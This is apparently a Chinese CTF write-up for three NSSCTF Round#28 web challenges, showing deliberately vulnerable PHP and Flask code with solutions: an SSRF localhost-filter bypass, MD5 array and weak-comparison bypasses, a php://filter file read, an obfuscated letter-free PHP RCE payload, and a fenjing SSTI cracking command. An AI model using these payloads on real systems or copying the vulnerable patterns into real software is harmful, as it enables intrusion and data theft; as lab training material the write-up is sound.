






# NSSCTF Round#28 WEB题解-先知社区

> **来源**: https://xz.aliyun.com/news/17417  
> **文章ID**: 17417

---

# WEB

## ez\_ssrf

```
<?php
  highlight_file(__FILE__);

//flag在/flag路由中

if (isset($_GET['url'])) {
  $url = $_GET['url'];

  if (strpos($url, 'http://') !== 0) {
    echo json_encode(["error" => "Only http:// URLs are allowed"]);
    exit;
  }

  $host = parse_url($url, PHP_URL_HOST);

  $ip = gethostbyname($host);

  $forbidden_ips = ['127.0.0.1', '::1'];
  if (in_array($ip, $forbidden_ips)) {
    echo json_encode(["error" => "Access to localhost or 127.0.0.1 is forbidden"]);
    exit;
  }

  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

  $response = curl_exec($ch);

  if (curl_errno($ch)) {
    echo json_encode(["error" => curl_error($ch)]);
  } else {
    echo $response;
  }

  curl_close($ch);
} else {
  echo json_encode(["error" => "Please provide a 'url' parameter"]);
}
?>
{"error":"Please provide a 'url' parameter"}
```

分析代码，我们可以发现，只是简单过滤了两个地址

```
127.0.0.1
::1
```

我们这里可以用127.0.0.2或者0.0.0.0来进行绕过

所以payload,如下：

```
?url=http://0.0.0.0/flag
```



成功得到flag

​

## ez\_php

```
<?php
error_reporting(0);
highlight_file(__FILE__);
if (isset($_POST['a']) && isset($_POST['b']) && isset($_GET['password'])) {
    $a = $_POST['a'];
    $b = $_POST['b'];
    $password = $_GET['password'];
    
    if (is_numeric($password)) {
        die("password can't be a number</br>");
    } elseif ($password != 123456) {
        die("Wrong password</br>");
    }

    if ($a != $b && md5($a) === md5($b)) {
        echo "wonderful</br>";
        include($_POST['file']);   # level2.php
    }
}
?>
```

这里我们可以发现前面就是一个简单MD5绕过：

```
a[]=1&b[]=2
```

然后是password由于是!=弱比较，直接令

```
password=123456a
```

即可。

这里由于没有对file参数进行过滤，导致我们能直接非预期读出flag。

payload如下：

```
GET:
?password=123456a
POST:
a[]=1&b[]=2&file=php://filter/convert.base64-encode/resource=/flag
```



即可得到flag  


但是按照题目逻辑，我们看看level2.php考了什么

```
<?php
error_reporting(0);
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            if (!preg_match("/[!@#%^&*:'\-<?>"\/|`a-zA-Z~\\]/", $rce)) {
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
}
?>
```

这里直接是考了rce，但是把常见字符都过滤了了，只剩下数字和$等符号，这里采用自增进行rce

首先, 在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array

```
$_=[].'';
print_r($_); //Array
```

所以payload:

```
$_=[]._;
$__=$_[1];
$_=$_[0];
$_++;
$_1=++$_;
$_++;
$_++;
$_++;
$_++;
$_=$_1.++$_.$__; //CHr
// echo $_(71);
$_=_.$_(71).$_(69).$_(84); //利用CHr拼接
$$_[1]($$_[2]);
```

将其url编码  
payload:

```
rce=%24%5F%3D%5B%5D%2E%5F%3B%24%5F%5F%3D%24%5F%5B1%5D%3B%24%5F%3D%24%5F%5B0%5D%3B%24%5F%2B%2B%3B%24%5F1%3D%2B%2B%24%5F%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%3D%24%5F1%2E%2B%2B%24%5F%2E%24%5F%5F%3B%24%5F%3D%5F%2E%24%5F%2871%29%2E%24%5F%2869%29%2E%24%5F%2884%29%3B%24%24%5F%5B1%5D%28%24%24%5F%5B2%5D%29%3B
```



这样即可

​

## Coding Loving

```
app = Flask(__name__)
app.secret_key = 'Ciallo～(∠・ω ＜）⌒★'
FILTER_KEYWORDS = ['Ciallo～(∠・ω ＜）⌒★']
TIME_LIMIT = 1
def contains_forbidden_keywords(complaint):
    for keyword in FILTER_KEYWORDS:
        if keyword.lower() in complaint:
            return True
    return False
@app.route('/', methods=['GET', 'POST'])
def index():
    session['user'] = 'test'
    command = request.form.get('cmd', 'coding')
    return render_template('index.html', command=command)

@app.route('/test', methods=['GET', 'POST'])
def shell():
    if session.get('user') != 'test':
        return render_template('Auth.html')
    if (abc:=request.headers.get('User-Agent')) is None:
        return render_template('Auth.html')
    cmd = request.args.get('cmd', '试一试')
    if request.method == 'POST':
        css_url = url_for('static', filename='style.css')
        command = request.form.get('cmd')
        if contains_forbidden_keywords(command):
            return render_template('forbidden.html')
        return render_template_string(f'''
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Loving Music</title>
            <link rel="stylesheet" href="{css_url}">
            <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;600&display=swap" rel="stylesheet">
        </head>
        <body>
            <div class="container">
                <h1>Loving coding</h1>
                <p class="emoji">🧑‍💻</p>
                <p>{command}</p>
            </div>
        </body>
        </html>
        ''', command=command,css_url=css_url)
    return render_template('shell.html', command=cmd)

```

分析代码可以得到，在路由/test中，我们传入的cmd命令才会被渲染，当然会存在一个问题，就是必须要携带session。

这里直接用fenjing即可

```
python -m fenjing crack --url http://url/test --cookies session=eyJ1c2VyIjoidGVzdCJ9.Z9-wGg.3sDtKLrJJo1uO4aMMFx5GmbaTNo --inputs cmd --method POST
```



成功执行代码  

